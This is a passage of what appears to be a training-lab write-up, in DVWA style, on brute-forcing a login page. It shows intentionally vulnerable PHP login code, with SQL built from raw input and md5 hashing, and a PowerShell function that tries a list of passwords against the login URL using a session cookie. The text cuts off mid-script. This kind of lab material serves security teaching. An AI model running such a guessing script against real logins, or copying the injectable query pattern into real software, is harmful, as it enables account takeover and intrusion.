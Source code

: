 
## Brute Force

A brute force password attack tries every possible combination of letters, numbers,
and special characters until the correct password is found.  A more realistic
attack is to use either a custom or well-know password dictionary which we'll
simulate here.

- [Brute Force - Low Security](#brute-force---low-security)
- [Brute Force - Medium Security](#brute-force---medium-security)
- [Brute Force - High Security](#brute-force---high-security)

<br>

### Brute Force - Low Security  

The low security level checks the provided username and password against the
database and if a match, provides a welcome message:

```php
if( isset( $_GET[ 'Login' ] ) ) {

    $user   = $_GET[ 'username' ];
    $pass   = $_GET[ 'password' ];
    $pass   = md5( $pass );
    $query  = "SELECT * FROM `users` WHERE user = '$user' AND password = '$pass';";
    $result = mysql_query( $query ) or die( '<pre>' . mysql_error() . '</pre>' );

    if( $result && mysql_num_rows( $result ) == 1 ) {
        $avatar = mysql_result( $result, 0, "avatar" );
        echo "<p>Welcome to the password protected area {$user}</p>";
        echo "<img src=\"{$avatar}\" />";
    }
    else {
        echo "<pre><br />Username and/or password incorrect.</pre>";
    }

    mysql_close();
}

```

<br>

This can be exploited by running a password guessing tool with a password list
that contains the correct password.  To demonstrate we'll use a simple PowerShell
function named `GuessPass`:

```powershell
function GuessPass {
    $list = @('12345678','abcdefgh','anywords','forever1','fantastic','superman','gosaints','tennineeight','sevensix','baseball','W0W$ers!!','p@ssword','p@$$W0rd','123478901234','whatever','123456','whattheheck','extracool','whoanowwhoa','getsomebruh','okiedokie','notthatspicy','$uper$ecret','barbeque1','rogerdodger')

    $list | %{
        $url = "http://unioncentralorchids.com:39560/vulnerabilities/brute/?username=admin&password=$_&Login=Login"

        $wc = New-Object Net.WebClient
        $wc.Headers['User-Agent']  = "<user-agent>"
        $wc.Headers['Cookie']      = "PHPSESSID=0gbg1r07eetum8lr94mv0ocf63; security=low"

        if ($wc.DownloadString($url).Contains("incorrect")) {
            Write-Host -Fore Gray "[-] Failed with password $_"
        }
        else {
```